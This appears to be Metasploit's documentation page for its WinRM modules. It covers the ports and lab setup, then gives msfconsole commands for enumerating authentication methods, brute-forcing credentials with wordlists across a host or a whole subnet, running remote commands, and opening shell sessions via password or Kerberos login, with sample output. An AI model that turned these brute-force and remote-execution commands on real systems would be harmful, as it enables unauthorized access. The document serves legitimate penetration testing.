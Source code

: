 ## WinRM Workflows

Windows Remote Management (WinRM), is a way for clients to remotely manage Windows computers. WinRM is built on top of the Simple Object Access Protocol (SOAP) over HTTP(S).

There are two main ports for WinRM:

- 5985/TCP - HTTP
- 5986/TCP - HTTPS

On older versions of Windows such as Windows 7/Windows Server 2008 the following ports were used:

- 80/TCP - HTTP
- 443/TCP - HTTPS

Important: Before running the chosen WinRM Metasploit module, first ensure that the `RPORT` and `SSL` values are configured correctly.
Either with the modern inline option support:

```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:

```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

Metasploit has support for multiple WinRM modules, including:

- Authentication enumeration
- Verifying/bruteforcing credentials
- Running commands and opening sessions

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search winrm
```

### Lab Environment

The WinRM modules work against Windows instances which have WinRM installed and configured.

For a domain controller the `Allow remote server management through WinRM` policy will need be enabled.
It is only possible to use WinRM against accounts which are part of the `Remote Management Users` group.

WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:

```
winrm quickconfig -transport:https
```

### Authentication Enumeration

Enumerate WinRm authentication mechanisms:

```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:

```
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce

Brute-force host with known user and password list:

```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD

To execute arbitrary commands against a windows target:

```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session

If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:

```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:

```
msf6 auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Open a WinRM session:

```
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd winrmauth=kerberos domaincontrollerrhost=192.168.123.13 winrmrhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
